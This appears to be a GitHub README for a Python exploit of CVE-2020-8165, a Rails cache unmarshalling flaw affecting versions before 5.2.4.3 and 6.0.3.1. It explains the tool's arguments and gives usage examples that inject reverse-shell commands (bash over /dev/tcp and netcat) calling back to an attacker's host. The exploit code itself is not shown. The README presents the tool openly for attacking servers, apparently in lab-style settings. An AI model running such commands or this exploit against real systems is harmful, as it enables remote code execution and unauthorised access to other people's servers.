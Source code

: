 # CVE-2020-8165 Python Exploit

This is code to exploit CVE-2020-8165 using Python3. This exploit works with rails < 5.2.4.3, rails < 6.0.3.1. The exploit allows an attacker to unmarshal user-provided objects in MemCacheStore and RedisCacheStore. This exploit code uses ArgParse to allow the user to very simply exploit this vulnerability. 

## Usage
There are five arguments for this exploit: 
  * rHost - The remote, target, hosts IP address
  * rPort - The remote, target, hosts port num that Rails in running on
  * email - The email that is used to login to the service
  * password - The password to the account to login to the service
  * cmd - The command to run, in quotes to account for spaces
  
Examples:
  * python3 exploit.py 10.10.10.X 8080 user@domain.com password "bash -c 'bash -i >& /dev/tcp/10.10.X.X/8989 0>&1'"
  * python3 exploit.py 10.10.10.X 8080 user@domain.com password "nc 10.10.X.X 8989"

## Major Credits
Original CVE details: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8165
Pastebin exploit code that I touched up and added arg parse: https://pastebin.com/jpHpdBTk
